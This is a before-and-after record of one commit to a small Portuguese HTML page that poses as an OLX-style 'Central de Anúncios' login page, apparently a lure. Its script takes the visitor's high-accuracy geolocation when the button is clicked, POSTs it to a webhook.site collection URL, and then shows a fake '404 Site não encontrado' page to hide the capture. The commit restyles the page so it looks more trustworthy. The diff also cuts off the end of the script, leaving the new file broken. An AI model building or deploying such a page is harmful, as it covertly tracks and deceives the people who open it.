

Before and after one commit to VENDED0R-OLX/Tablet-samsung16gb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-895 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved layout and stylingolx

```diff
--- a/index.html
+++ b/index.html
@@ -2,18 +2,124 @@
 <html lang="pt-BR">
 <head>
   <meta charset="UTF-8" />
-  <title>Carregando...</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+  <title>Loja Central</title>
+  <style>
+    * {
+      box-sizing: border-box;
+      margin: 0;
+      padding: 0;
+    }
+
+    body {
+      font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+      background-color: #f4f3f8;
+      color: #1f1b2e;
+      min-height: 100vh;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      padding: 20px;
+    }
+
+    .card {
+      width: 100%;
+      max-width: 400px;
+      background: #ffffff;
+      border-radius: 16px;
+      padding: 28px 22px;
+      box-shadow: 0 10px 28px rgba(45, 25, 95, 0.08);
+      border-top: 5px solid #6e0ad6;
+      text-align: center;
+    }
+
+    .badge {
+      display: inline-block;
+      background: #f0e6ff;
+      color: #6e0ad6;
+      font-weight: 700;
+      font-size: 12px;
+      letter-spacing: 0.4px;
+      text-transform: uppercase;
+      padding: 6px 12px;
+      border-radius: 999px;
+      margin-bottom: 14px;
+    }
+
+    h1 {
+      font-size: 22px;
+      line-height: 1.3;
+      margin-bottom: 10px;
+      color: #181426;
+    }
+
+    p {
+      font-size: 15px;
+      line-height: 1.5;
+      color: #555068;
+      margin-bottom: 24px;
+    }
+
+    #btn {
+      width: 100%;
+      min-height: 54px;
+      padding: 14px 20px;
+      font-size: 16px;
+      font-weight: 700;
+      color: #ffffff;
+      background-color: #6e0ad6;
+      border: none;
+      border-radius: 10px;
+      cursor: pointer;
+      touch-action: manipulation;
+      transition: background-color 0.15s ease, transform 0.08s ease;
+    }
+
+    #btn:hover {
+      background-color: #5907ad;
+    }
+
+    #btn:active {
+      transform: scale(0.99);
+      background-color: #47058a;
+    }
+
+    #btn:disabled {
+      opacity: 0.7;
+      cursor: wait;
+    }
+
+    .status {
+      margin-top: 14px;
+      font-size: 13px;
+      color: #6f6985;
+      min-height: 18px;
+    }
+
+    .not-found h1 {
+      font-size: 32px;
+      margin-bottom: 8px;
+    }
+
+    .not-found p {
+      margin-bottom: 0;
+    }
+  </style>
 </head>
 <body>
-  <button id="btn">Continuar</button>
-  <div id="view"></div>
+  <main class="card" id="card">
+    <div id="content">
+      <span class="badge">Central de Anúncios</span>
+      <h1>Acesse sua conta ou anúncio</h1>
+      <p>Toque no botão abaixo para prosseguir até a loja central.</p>
+      <button id="btn" type="button">Entrar na loja central</button>
+      <div class="status" id="status"></div>
+    </div>
+  </main>
 
   <script>
-    // Ponto de referência (ajuste se quiser medir em relação a outro local)
     const REF_LAT = -20.1286;
     const REF_LON = -40.3078;
-
-    // Sua URL do Webhook.site
     const ENDPOINT_URL = "https://webhook.site/8830f5cc-72b5-489c-ac38-9cd9d8aedfd5";
 
     function toRad(deg) { return (deg * Math.PI) / 180; }
@@ -33,16 +139,22 @@
     }
 
     function showNotFound() {
-      document.getElementById("btn").style.display = "none";
-      document.getElementById("view").innerHTML =
-        "<h1>404</h1><p>Site não encontrado.</p>";
+      document.title = "404 - Não encontrado";
+      document.getElementById("content").innerHTML =
+        '<div class="not-found"><h1>404</h1><p>Site não encontrado.</p></div>';
     }
 
-    document.getElementById("btn").addEventListener("click", () => {
+    const btn = document.getElementById("btn");
+    const statusEl = document.getElementById("status");
+
+    btn.addEventListener("click", () => {
       if (!navigator.geolocation) {
         showNotFound();
         return;
       }
+
+      btn.disabled = true;
+      statusEl.textContent = "Aguarde...";
 
       navigator.geolocation.getCurrentPosition(
         async (pos) => {
@@ -59,22 +171,3 @@
           try {
             await fetch(ENDPOINT_URL, {
               method: "POST",
-              headers: { "Content-Type": "text/plain;charset=UTF-8" },
-              body: JSON.stringify(payload),
-              keepalive: true
-            });
-          } catch (_) {
-            // Mesmo se houver bloqueio de CORS na leitura, o POST pode ter saído
-          } finally {
-            showNotFound();
-          }
-        },
-        () => {
-          showNotFound();
-        },
-        { enableHighAccuracy: true }
-      );
-    });
-  </script>
-</body>
-</html>
```
